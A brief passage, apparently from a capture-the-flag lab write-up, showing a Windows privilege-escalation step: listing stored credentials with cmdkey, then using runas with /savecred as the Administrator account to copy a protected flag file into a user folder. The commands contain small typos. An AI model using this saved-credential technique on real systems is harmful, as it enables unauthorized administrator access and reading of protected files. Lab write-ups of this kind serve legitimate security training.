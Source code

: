 we can use 
**cmdkey /list**
so as to see what credentials are stored in the system 

C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\windows\System32\cmd.exe" \c TYPE C:\Users\Administrator\Desktop\root.txt > C:\users\security\root.txt"

